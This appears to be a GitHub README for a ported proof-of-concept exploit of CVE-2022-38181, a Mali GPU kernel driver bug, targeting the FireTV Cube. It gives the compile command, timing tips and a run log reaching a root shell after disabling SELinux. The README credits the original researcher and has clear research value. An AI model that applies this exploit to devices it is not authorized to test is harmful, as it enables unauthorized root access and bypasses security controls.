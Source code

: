 ## Exploit for CVE-2022-38181 for FireTV 2nd gen Cube

This is a fork of security researcher Man Yue Mo's <a href="https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/CVE_2022_38181">Pixel 6 POC</a> for CVE_2022_38181.  Read his detailed write-up of the vulnerability <a href="https://github.blog/2023-01-23-pwning-the-all-google-phone-with-a-non-google-bug/">here</a>.  Changes have been made to account for FireOS's 32bit userspace, as well as the 2nd gen Cube's older Bifrost drivers (r16p0) and Linux kernel (4.9.113) versions. The POC exploits a bug in the ARM Mali kernel driver to gain arbitrary kernel code execution, which is then used to disable SELinux and gain root.  

I used the following command to compile with clang in ndk-21:
```
android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/armv7a-linux-androideabi30-clang -DSHELL mali_shrinker_mmap32.c -o raven_shrinker
```
The exploit should be run 30-90sec after the Cube boots for greatest reliability.
```
raven:/ $ /data/local/tmp/raven_shrinker
fingerprint: Amazon/raven/raven:9/PS7624.3337N/0026810845440:user/amz-p,release-keys
failed, retry.
failed, retry.
failed, retry.
failed, retry.
region freed 80
alias gpu va 100c85000
read 0
cleanup flush region
release_mem_pool
jit_freed
jit_free commit: 2 0
Found freed_idx 2
Found pgd 23, 100cce000
overwrite addr : 104100634 634
overwrite addr : 104300634 634
overwrite addr : 1041001c4 1c4
overwrite addr : 1043001c4 1c4
result 50
raven:/ # 
```
